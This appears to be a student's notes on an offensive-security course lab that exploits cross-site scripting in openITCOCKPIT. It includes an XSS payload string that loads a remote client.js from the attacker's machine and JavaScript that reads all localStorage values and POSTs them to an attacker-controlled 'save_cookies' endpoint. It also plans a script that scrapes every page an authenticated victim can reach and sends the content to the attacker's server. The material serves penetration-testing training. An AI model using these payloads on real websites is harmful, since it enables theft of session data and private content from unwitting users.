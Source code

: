 ```bash
openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout 
key.pem -days 365
```

Additionally, we can rework our XSS injection to reference our `client.js` file on our webserver instead of having to manually insert the JS code ourselves. 

### Exercise 10.6.4.1

*Exploit the XSS discovered earlier but this time use `https://<Your Kali IP>/client.js` as the
payload. If successful, the XSS should display the fake Login page.*

```python
payload = "\"></script><script src=\"https://{ip}:443/client.js\"></script><script src=\""
```

### Extra Mile 10.6.4.2

Gets all values from localStorage

```jsx
setTimeout(() => {
    Object.keys(localStorage).forEach(key => {
        fetch("https://<ip>/save_cookies", {
            body: "name=" + encodeURIComponent(key) + "&value=" + encodeURIComponent(localStorage.getItem(key)),
            headers: {"Content-Type": "application/x-www-form-urlencoded"},
            method: "POST"
        });
    })
}, 2000); // Leave time for page to load
```

## Scraping Content

Need to finish `client.js` script to target the authenticated victim and scrape the data they have access to. The script needs to:

1. Load the home page
2. Search for all unique links and save their HREFs
3. Fetch the content of each link
4. Send the obtained content from each link to our API server. 

We will use an `iframe` to load the page, follow any redirects, and render any JS. Once the page is fully loaded, we can grab all the links the authenticated user has access to. 

- We don’t want to follow a link that will log out of the current session, so we avoid any links that contains the words `logout, log-out, signout or sign-out`
- We want to make sure that any URL that we consider is a valid URL. We should perform a `fetch` to verify each link, but we should use a promise to run the request **asynchronously**, ensuring that the request won’t freeze up the user’s browser.
- Need to make sure we don’t scrape links before the page is loaded, since openITCOCKPIT loads a lot of JS and the JS could load additional content.

Escaping characters: [https://stackoverflow.com/a/58138810](https://stackoverflow.com/a/58138810)
